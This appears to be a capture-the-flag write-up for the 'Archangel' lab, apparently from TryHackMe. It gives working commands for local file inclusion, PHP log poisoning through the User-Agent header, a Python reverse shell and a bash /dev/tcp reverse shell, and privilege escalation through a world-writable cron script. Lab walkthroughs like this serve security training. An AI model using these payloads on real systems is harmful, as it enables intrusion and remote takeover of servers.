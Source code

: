 ## Exploitation

### LFI test
http://mafialive.thm/test.php?view=/var/www/html/development_testing//..//..//..//..//..//..//..//..//..//etc/passwd

### Log poisoning → RCE
Inject PHP into Apache access log via the header:  
User-Agent: <?= system($_GET['cmd']); ?>

Then execute commands by viewing the log through LFI and passing `cmd=`:  
http://mafialive.thm/test.php?view=/var/log/apache2/access.log&cmd=id

### Reverse shell (www-data)
One-liner using env vars + python3 via `cmd=`:
http://mafialive.thm/test.php?view=/var/log/apache2/access.log&cmd=export%20RHOST=%2210.9.0.125%22;export%20RPORT=80;python3%20-c%20%27import%20sys,socket,os,pty;s=socket.socket();s.connect((os.getenv(%22RHOST%22),int(os.getenv(%22RPORT%22))));[os.dup2(s.fileno(),fd)%20for%20fd%20in%20(0,1,2)];pty.spawn(%22bash%22)%27

Proof:
id  
uid=33(www-data) gid=33(www-data) groups=33(www-data)

---

## Privilege Escalation

### Cron-executed writable script → user `archangel`
ls -la /opt  
# drwxrwxrwx  root:root      /opt  
# -rwxrwxrwx  archangel:archangel  /opt/helloworld.sh  
# drwxrwx---  archangel:archangel  /opt/backupfiles

Original content:
#!/bin/bash  
echo "hello world" >> /opt/backupfiles/helloworld.txt

Append a reverse shell and wait for cron:
echo "bash -c 'bash -i >& /dev/tcp/10.9.0.125/443 0>&1'" >> /opt/helloworld.sh  
nc -lvnp 443  
# → shell as archangel

User flags:
thm{lf1_t0_rc3...REDACTED}  
thm{h0r1zont4l_pr1v1l3g3_2sc4ll4t10n_us1ng_cr0n}
